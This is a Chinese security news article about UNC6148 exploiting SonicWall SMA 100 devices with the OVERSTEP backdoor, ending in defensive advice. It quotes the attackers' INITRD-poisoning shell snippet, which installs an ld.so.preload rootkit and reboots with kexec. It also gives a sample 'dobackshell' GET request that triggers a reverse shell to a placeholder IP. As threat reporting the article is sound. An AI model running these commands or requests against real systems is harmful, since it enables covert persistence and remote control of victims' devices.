 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MjM5NjA0NjgyMA==&mid=2651325149&idx=4&sn=def91ead440f78d348db5fd03eb51f18

#  SonicWall SMA设备零日RCE漏洞遭利用，部署OVERSTEP勒索软件  
 FreeBuf   2025-07-18 10:31  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/qq5rfBadR38jUokdlWSNlAjmEsO1rzv3srXShFRuTKBGDwkj4gvYy34iajd6zQiaKl77Wsy9mjC0xBCRg0YgDIWg/640?wx_fmt=gif "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39qt8cDGMxraNibg1nP3VsQJBic4UCwoXLEdZYL5AslqVnc6phUibpHVecrInY5cSpvXAJ8nQTrR0wVg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
调查人员发现，SonicWall已停产的SMA 100系列设备再次成为攻击目标，攻击者利用疑似零日远程代码执行漏洞，结合名为OVERSTEP的复杂后门程序发起隐蔽攻击。  
  
  
**Part01**  
## 攻击链分析：从凭证窃取到勒索部署  
##   
  
这起被归因于经济利益组织UNC6148的攻击行动，首先窃取管理员凭证和一次性密码种子，随后完全控制设备，最终外泄数据并准备部署勒索软件。  
  
  
攻击链始于一系列HTTP请求，最终使攻击者在设备上获得shell访问权限——这在正常情况下本应无法实现。Google威胁情报分析师指出，攻击者激活shell后会导出设备配置，悄悄注入恶意规则，并将base64编码的二进制文件上传至持久性
```
/cf
```

  
分区。  
  
  
该二进制文件随后被复制到/usr/lib/libsamba-errors.so.6，并通过/etc/ld.so.preload强制在每个进程启动时加载，立即赋予攻击者对设备的root级访问权限。调查人员将初始入侵点与犯罪论坛长期交易的多个SMA漏洞之一相关联。  
  
  
**Part02**  
## 历史漏洞关联分析  
  
  
下表总结了近三年来相关攻击活动利用的最关键漏洞，这些漏洞要么可直接执行代码，要么提供凭证窃取路径：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR39qt8cDGMxraNibg1nP3VsQJrvJn53ARoOT4tGbt4IrlR8La5suydYWLSZCRKuEfwDh2sxzS2EDKZA/640?wx_fmt=png&from=appmsg "")  
  
  
dopasswords命令执行的Shell命令显示，OVERSTEP将凭证数据库压缩为可通过web访问的TAR存档，确保攻击者能轻松下载。  
  
  
**Part03**  
## 持久化策略：劫持启动序列  
  
  
一旦获得立足点，UNC6148通过重写/etc/rc.d/rc.fwboot中的bootCurrentFirmware()例程来巩固持久性。修改后的脚本会挂载设备的压缩初始RAM磁盘（INITRD），植入木马化库文件，并重写INITRD.GZ使恶意代码先于任何合法服务加载。  
  
  
时间戳"touch"操作使文件日期与官方内核镜像保持一致，干扰快速元数据检查。以下是攻击者执行的代码片段：  

```
# Extract and poison INITRD
gzip -d $fwLoc/INITRD.GZ
mount -o loop $fwLoc/INITRD $fwLoc/zzz
cp /cf/libsamba-errors.so.6 $fwLoc/zzz/usr/lib/
echo /usr/lib/libsamba-errors.so.6 > $fwLoc/zzz/etc/ld.so.preload
umount $fwLoc/zzz && gzip $fwLoc/INITRD
mv $fwLoc/INITRD.gz $fwLoc/INITRD.GZ
/usr/local/sbin/kexec -l $fwLoc/BZIMAGE --append=&#34;`cat $fwLoc/LINUX.OPT`&#34;
/usr/local/sbin/kexec -e
```

  
  
设备重启后，包括负责日志记录的web服务器在内的所有动态二进制文件都会链接到恶意库。OVERSTEP会hookopen*、readdir*和write函数以隐藏自身，并解析输入缓冲区中的dobackshell或dopasswords字符串。  
  
  
由于在被劫持的write调用中执行了内存日志篡改，像https://device/query?q=dobackshell,1.2.3.4,4444这样的单个HTTP GET请求就能触发反向shell，而不会在磁盘日志中留下痕迹。结果是建立了弹性立足点：只要被盗凭证仍然有效，即使完全打补丁的设备也可能被重新入侵。  
  
  
Google分析师敦促防御者对磁盘进行离线镜像，轮换所有密码和OTP种子，并检查/etc/ld.so.preload是否存在——该文件在SMA硬件上的存在"等同于已被入侵"。  
  
  
**参考来源：**  
  
SonicWall SMA Devices 0-Day RCE Vulnerability Exploited to Deploy OVERSTEP Ransomware  
  
https://cybersecuritynews.com/sonicwall-sma-devices-0-day-rce-vulnerability/  
  
  
###   
###   
###   
  
**推荐阅读**  
  
[](https://mp.weixin.qq.com/s?__biz=MjM5NjA0NjgyMA==&mid=2651324992&idx=1&sn=8303e67651ddba23a73497aeb18955fa&scene=21#wechat_redirect)  
  
### 电台讨论  
  
****  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/qq5rfBadR3icF8RMnJbsqatMibR6OicVrUDaz0fyxNtBDpPlLfibJZILzHQcwaKkb4ia57xAShIJfQ54HjOG1oPXBew/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
   
  
